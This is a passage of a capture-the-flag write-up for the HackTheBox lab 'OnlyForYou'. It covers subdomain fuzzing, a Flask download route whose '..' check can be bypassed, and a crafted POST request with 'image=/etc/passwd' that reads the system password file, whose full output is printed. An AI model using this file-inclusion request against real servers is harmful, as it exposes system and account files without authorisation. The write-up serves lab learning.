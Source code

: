 #medium #LFI

[OnlyForYou](https://app.hackthebox.com/machines/OnlyForYou) is a #medium difficulty **HackTheBox** lab featuring a [[Local File Inclusion (LFI)]] vulnerability. 

---
# Scanning

	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 
	2.0)
	80/tcp open  http    nginx 1.18.0 (Ubuntu)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Looking at our scan, it appears our foothold is going to be located on HTTP port 80.

	echo '10.10.11.210 only4you.htb' | sudo tee -a /etc/hosts

After resolving the Domain to an IP address, we are met with this page.

![[Only4you.png]]

Some enumeration turns up some dead ends. Let's see if there are any subdomains we can fuzz for.

	ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-
	5000.txt:FUZZ -u http://only4you.htb/ -H "Host: FUZZ.only4you.htb" -fw 6

Sure enough it looks like there is another website hosted on the subdomain `beta.only4you.htb`.

![[beta.Only4You.png]]

Upon resolving another domain, we're met with a web-page allowing users to shrink and convert JPEGs & PNGs. On the landing page, it looks like we're able to download the source code. Let's take a look at an interesting snippet that could allow for a **LFI**. 

	@app.route('/download', methods=['POST'])
	def download():
	    image = request.form['image']
	    filename = posixpath.normpath(image) 
	    if '..' in filename or filename.startswith('../'):
	        flash('Hacking detected!', 'danger')
	        return redirect('/list')
	    if not os.path.isabs(filename):
	        filename = os.path.join(app.config['LIST_FOLDER'], filename)
	    try:
	        if not os.path.isfile(filename):
	            flash('Image doesn\'t exist!', 'danger')
	            return redirect('/list')
	    except (TypeError, ValueError):
	        raise BadRequest()
	    return send_file(filename, as_attachment=True)

We can see a POST request with a key titled 'image' is prohibited from traversing backwards from the current directory, per the source code. Luckily, we can just request the `/etc/passwd` file directly like so, without the need for traversing backward through directories to get access to `/etc/`. 

	POST /download HTTP/1.1
	Host: beta.only4you.htb
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 
	Firefox/115.0
	Accept: 
	text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;
	q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 17
	Origin: http://beta.only4you.htb
	Connection: close
	Referer: http://beta.only4you.htb/list
	Upgrade-Insecure-Requests: 1
	
==`image=/etc/passwd`

Doing this yields our LFI where we successfully read from the `/etc/passwd` file.

	root:x:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin
	sync:x:4:65534:sync:/bin:/bin/sync
	games:x:5:60:games:/usr/games:/usr/sbin/nologin
	man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
	mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
	news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
	uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
	proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
	list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
	irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
	gnats:x:41:41:Gnats Bug-Reporting System 
	(admin):/var/lib/gnats:/usr/sbin/nologin
	nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
	systemd-network:x:100:102:systemd Network 
	Management,,,:/run/systemd:/usr/sbin/nologin
	systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
	systemd-timesync:x:102:104:systemd Time 
	Synchronization,,,:/run/systemd:/usr/sbin/nologin
	messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
	syslog:x:104:110::/home/syslog:/usr/sbin/nologin
	_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
	tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
	uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
	tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
	landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
	pollinate:x:110:1::/var/cache/pollinate:/bin/false
	usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
	sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
	systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
	john:x:1000:1000:john:/home/john:/bin/bash
	lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
	mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
	neo4j:x:997:997::/var/lib/neo4j:/bin/bash
	dev:x:1001:1001::/home/dev:/bin/bash
	fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
	_laurel:x:996:996::/var/log/laurel:/bin/false

Now let's take a look at which users are given access to a shell. 

	┌──(kali㉿kali)-[~/HackTheBox/onlyforyou/recovered]
	└─$ cat passwd | grep /bin/bash
	root:x:0:0:root:/root:/bin/bash
	john:x:1000:1000:john:/home/john:/bin/bash
	neo4j:x:997:997::/var/lib/neo4j:/bin/bash
	dev:x:1001:1001::/home/dev:/bin/bash